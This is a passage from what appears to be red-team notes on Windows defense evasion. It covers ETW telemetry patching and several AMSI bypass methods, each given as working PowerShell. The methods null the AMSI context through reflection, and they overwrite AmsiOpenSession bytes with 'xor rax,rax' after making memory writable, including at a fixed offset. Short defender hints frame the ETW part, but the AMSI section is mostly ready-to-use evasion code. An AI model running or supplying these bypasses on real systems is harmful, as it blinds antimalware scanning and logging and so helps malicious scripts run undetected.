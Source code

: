 **What Happens:** Calls to `EtwEventWrite` from that process now immediately return `STATUS_SUCCESS` (0) without forwarding event data to ETW consumers, degrading telemetry.

**Defender Ideas:** Monitor memory protection changes on loaded modules; hash/measure known API prologues; capture user‑mode ETW provider drops; alert on suspicious RWX toggles in signed DLL regions.

---

## AMSI Bypass Techniques

AMSI (Antimalware Scan Interface) provides a hookable content‑scanning path for scripts. Short‑circuiting it is a well known red‑team move; defenders should detect and block these.

### Method 1 – Null Out AMSI Context Structure

Set the underlying AMSI context object to `0` so subsequent validation checks fail open.

```powershell
$a=[Ref].Assembly.GetTypes(); foreach($b in $a){ if($b.Name -like "*iUtils"){$c=$b}}
$d=$c.GetFields('NonPublic,Static'); foreach($e in $d){ if($e.Name -like "*Context"){$f=$e}}
$g=$f.GetValue($null); [IntPtr]$ptr=$g; [Int32[]]$buf=@(0)
[System.Runtime.InteropServices.Marshal]::Copy($buf,0,$ptr,1)
```

### Method 2 – Patch `test rdx,rdx` → `xor rax,rax` Early Return

Overwrite instruction(s) in `AmsiOpenSession` to always succeed and return a clean HRESULT.

```powershell
[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
    (LookupFunc kernel32.dll VirtualProtect),
    (getDelegateType @([IntPtr],[UInt32],[UInt32],[UInt32].MakeByRefType()) ([Bool])))

$vp.Invoke($funcAddr,3,0x40,[ref]$oldProtectionBuffer)
$buf=[Byte[]](0x48,0x31,0xC0) # xor rax,rax (3 bytes)
[System.Runtime.InteropServices.Marshal]::Copy($buf,0,$funcAddr,3)
$vp.Invoke($funcAddr,3,0x20,[ref]$oldProtectionBuffer)
```

> *Note:* If you overwrite only the first 3 bytes, ensure the original instruction boundary aligns—otherwise use full disassembly to avoid corrupting subsequent instructions. In many PoC demos a minimal patch still works because the function returns before faulting.

### Sub‑Method – Patch AMSI at Specific Offset (AmsiOpenSession / AmsiScanBuffer)

Sometimes the stability move is to patch the instruction that evaluates a register **after** prologue. Example below targets offset `0xEA` from the start of `AmsiOpenSession` (lab value—**recalc per build**):

```powershell
[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$offset = 0xEA
$patchAddr = $funcAddr.ToInt64() + $offset
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
    (LookupFunc kernel32.dll VirtualProtect),
    (getDelegateType @([IntPtr],[UInt32],[UInt32],[UInt32].MakeByRefType()) ([Bool])))

$vp.Invoke($patchAddr,3,0x40,[ref]$oldProtectionBuffer)
$buf=[Byte[]](0x48,0x31,0xC0) # xor rax,rax
[System.Runtime.InteropServices.Marshal]::Copy($buf,0,$patchAddr,3)
$vp.Invoke($patchAddr,3,0x20,[ref]$oldProtectionBuffer)
```
